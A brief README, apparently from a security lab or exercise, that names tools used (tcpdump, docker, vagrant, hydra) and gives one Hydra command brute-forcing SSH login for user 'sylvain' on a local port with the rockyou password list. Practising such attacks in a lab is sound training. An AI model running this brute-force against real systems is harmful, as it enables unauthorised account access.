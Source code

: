 # Attack is the best defense
### I made use of tcpdump, docker, vagrant & hydra
### I used the following command 
[! ```sudo hydra -l sylvain -P /vagrant/rockyou.txt ssh://127.0.0.1:2222 -t 4```]
